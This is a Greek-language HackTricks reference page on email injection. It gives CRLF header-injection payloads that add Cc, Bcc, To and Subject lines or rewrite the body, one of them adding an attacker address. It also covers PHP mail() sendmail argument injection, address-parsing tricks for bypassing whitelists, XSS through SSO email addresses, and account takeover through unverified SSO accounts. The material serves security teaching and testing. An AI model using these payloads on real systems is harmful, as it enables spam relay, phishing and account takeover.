 # Εισαγωγή Email

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε το [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) για να δημιουργήσετε εύκολα και να **αυτοματοποιήσετε ροές εργασίας** με τα πιο προηγμένα εργαλεία της παγκόσμιας κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>

## Εισαγωγή σε απεσταλμένο email

### Εισαγωγή Cc και Bcc μετά το όρισμα αποστολέα
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
### Ενσωμάτωση ορίσματος
```
From:sender@domain.com%0ATo:attacker@domain.com
```
### Ενσωμάτωση ορίσματος Θέματος
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
### Αλλαγή του σώματος του μηνύματος

Εισαγάγετε δύο γραμμές αλλαγής και στη συνέχεια γράψτε το μήνυμά σας για να αλλάξετε το σώμα του μηνύματος.
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### Εκμετάλλευση της συνάρτησης PHP mail()
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
}
```
#### Ο 5ος παράμετρος ($additional\_parameters)

Αυτή η ενότητα θα βασιστεί στο **πώς να καταχραστείτε αυτήν την παράμετρο υποθέτοντας ότι ένας επιτιθέμενος την ελέγχει**.

Αυτή η παράμετρος θα προστεθεί στη γραμμή εντολών που το PHP θα χρησιμοποιήσει για να καλέσει το δυαδικό sendmail. Ωστόσο, θα γίνει αποσαφήνιση με τη λειτουργία `escapeshellcmd($additional_parameters)`.

Ένας επιτιθέμενος μπορεί **να εισάγει εξαγωγή παραμέτρων για το sendmail** σε αυτήν την περίπτωση.

#### Διαφορές στην υλοποίηση του /usr/sbin/sendmail

Η διεπαφή **sendmail** παρέχεται από το λογισμικό MTA email (Sendmail, Postfix, Exim κλπ.) που είναι εγκατεστημένο στο σύστημα. Αν και η **βασική λειτουργικότητα** (όπως οι παράμετροι -t -i -f) παραμένει **ίδια** για λόγους συμβατότητας, **άλλες λειτουργίες και παράμετροι** διαφέρουν σημαντικά ανάλογα με το MTA που είναι εγκατεστημένο.

Εδώ υπάρχουν μερικά παραδείγματα διαφορετικών σελίδων εγχειριδίου της εντολής/διεπαφής sendmail:

* Sendmail MTA: http://www.sendmail.org/\~ca/email/man/sendmail.html
* Postfix MTA: http://www.postfix.org/mailq.1.html
* Exim MTA: https://linux.die.net/man/8/eximReferences

Ανάλογα με την **προέλευση του δυαδικού sendmail** έχουν ανακαλυφθεί διαφορετικές επιλογές για την κατάχρησή τους και τη δυνατότητα να **διαρρεύσουν αρχεία ή ακόμα και να εκτελέσουν αυθαίρετες εντολές**. Ελέγξτε πώς στο [**https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html**](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)

## Ενσωμάτωση στο όνομα του email

### Αγνοημένα μέρη ενός email

Τα σύμβολα: **+, -** και **{}** σε σπάνιες περιπτώσεις μπορούν να χρησιμοποιηθούν για ετικετάρισμα και να αγνοηθούν από τους περισσότερους διακομιστές email

* Π.χ. john.doe+intigriti@example.com → john.doe@example.com

**Σχόλια μεταξύ παρενθέσεων ()** στην αρχή ή στο τέλος θα αγνοηθούν επίσης

* Π.χ. john.doe(intigriti)@example.com → john.doe@example.com

### Παράκαμψη λευκής λίστας

<figure><img src="../.gitbook/assets/image (4) (6).png" alt="https://www.youtube.com/watch?app=desktop&#x26;v=4ZsTKvfP1g0"><figcaption></figcaption></figure>

### Εισαγωγικά

<figure><img src="../.gitbook/assets/image (6) (4).png" alt="https://www.youtube.com/watch?app=desktop&#x26;v=4ZsTKvfP1g0"><figcaption></figcaption></figure>

### IPs

Μπορείτε επίσης να χρησιμοποιήσετε IPs ως ονόματα τομέα μεταξύ αγκύλων:

* john.doe@\[127.0.0.1]
* john.doe@\[IPv6:2001:db8::1]

### Άλλες ευπάθειες

![https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0](<../.gitbook/assets/image (296).png>)

## Τρίτο κόμμα SSO

### XSS

Μερικές υπηρεσίες όπως **github** ή **salesforce επιτρέπουν** τη δημιουργία **διεύθυνσης email με XSS payloads**. Αν μπορείτε **να χρησιμοποιήσετε αυτούς τους παρόχους για να συνδεθείτε σε άλλες υπηρεσίες** και αυτές οι υπηρεσίες **δεν αποσαφηνίζουν** σωστά το email, θα μπορούσατε να προκαλέσετε **XSS**.

### Κατάληψη λογαριασμού

Αν μια **υπηρεσία SSO** σάς επιτρέπει **να δημιουργήσετε ένα λογαριασμό χωρίς επαλήθευση της δοθείσας διεύθυνσης email** (όπως **salesforce**) και στη συνέχεια μπορείτε να χρησιμοποιήσετε αυτόν τον λογαριασμό για **σύνδεση σε μια διαφορετική υπηρεσία** που **εμπιστεύεται** την salesforce, θα μπορούσατε να αποκτήσετε πρόσβαση σε οποιονδήποτε λογαριασμό.\
_Σημειώστε ότι η salesforce υποδεικνύει εάν η δοθείσα email ήταν επαληθευμένη ή όχι, οπότε η εφαρμογή θα πρέπει να λάβει υπόψη αυτήν την πληροφορία._

## Απάντηση-Σε

Μπορείτε να στείλετε ένα email χρησιμοποιώντας _**Από: company.com**_ και _**Απάντηση-Σε: attacker.com**_ και αν σταλεί οποιαδήποτε **αυτόματη απάντηση** λόγω του ότι το email στάλθηκε **από** μια **εσωτερική διεύθυνση**, ο **επιτιθέμενος** μπορεί να **λάβει** αυτήν τη **απάντηση**.

## Ρυθμός Σκληρού Αναπηδήματος

Κάποιες υπηρεσίες, όπως η AWS, εφαρμόζουν ένα κατώτατο όριο γνωστό ως **Ρυθμός Σκληρού Αναπηδήματος**, συνήθως ορισμένο στο 10%. Αυτό είναι ένα κρίσιμο μετρικό, ειδικά για υπηρεσίες παράδοσης email. Όταν αυτός ο ρυθμός υπερβαίνεται, η υπηρεσία, όπως η υπηρεσία email της AWS, μπορεί να αναστείλει ή να αποκλείσει.

Ένα **σκληρό αναπηδητικό** αναφέρεται σε ένα **email** που έχει επιστραφεί στον αποστολέα επειδή η διεύθυνση του παραλήπτη είναι μη έγκυρη ή μη υπάρχουσα. Αυτό μπορεί να συμβεί για διάφορους λόγους, όπως το email να σταλεί σε μια μη υπάρχουσα διεύθυνση, ένα τομέα που δεν είναι πραγματικός ή η αρνητική απάντηση του διακομιστή παραλήπτη να δεχτεί τα **emails**.

Στο πλαίσιο της AWS, αν στείλετε 1000 emails και 100 από αυτά οδηγήσουν σε σκληρά αναπηδήματα (λόγω λόγων όπως μη έγκυρες διευθύνσεις ή τομείς), αυτό θα σήμαινε έναν ρυθμό σκληρού αναπηδήματος 10%. Η επίτευξη ή υπέρβαση αυτού του ρυθμού μπορεί να ενεργοποιήσει την AWS SES (Απλή Υπηρεσία Email) να αποκλείσει ή να αναστείλει τις δυνατότητες αποστολής email σας.

Είναι κρίσιμο να διατηρείτε ένα χαμηλό ρυθμό σκληρού αναπηδήματος για να εξασφαλίσετε αδιάκοπη υπηρεσία email και να διατηρήσετε τη φήμη του αποστολέα. Η παρακολούθηση και διαχείριση της ποιότητας των διευθύνσεων email στις λίστες αποστολής σας μπορεί να βοηθήσει σημαντικά στην επίτευξη αυτού.

Για περισσότερες λεπτομερείς πληροφορίες, μπορείτε να ανατρέξετε στην επίσημη τεκμηρίωση της AWS για την αντιμετώπιση αναπηδήσεων και παραπόνων [Χειρισμός Αναπηδήσεων AWS SES](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/notification-contents.html#bounce-types).

## Αναφορές

* [https://resources.infosecinstitute.com/email-injection/](https://resources.infosecinstitute.com/email-injection/)
* [https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)
* [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)
* [https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0](https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0)

<details>

<summary><strong>Μάθετε το χάκινγκ της AWS από το μηδέν μέχρι τον ήρ
